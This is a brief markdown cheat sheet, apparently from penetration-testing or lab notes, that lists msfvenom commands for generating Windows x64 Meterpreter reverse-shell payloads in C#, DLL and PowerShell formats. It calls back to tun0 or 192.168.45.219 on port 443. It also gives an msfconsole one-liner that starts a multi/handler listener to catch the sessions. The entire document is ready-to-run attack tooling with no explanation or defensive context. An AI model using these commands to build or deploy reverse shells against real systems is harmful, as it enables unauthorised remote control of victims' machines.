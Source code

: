 # Msfvenom

* C Sharp Meterpreter Shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp
```

* Metasploit's Exploit Handler

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```



<details>

<summary>Other Shellcode</summary>

* DLL

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.219 LPORT=443 EXITFUNC=thread -f dll -o met.dll
```

* Powershell

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
```

</details>

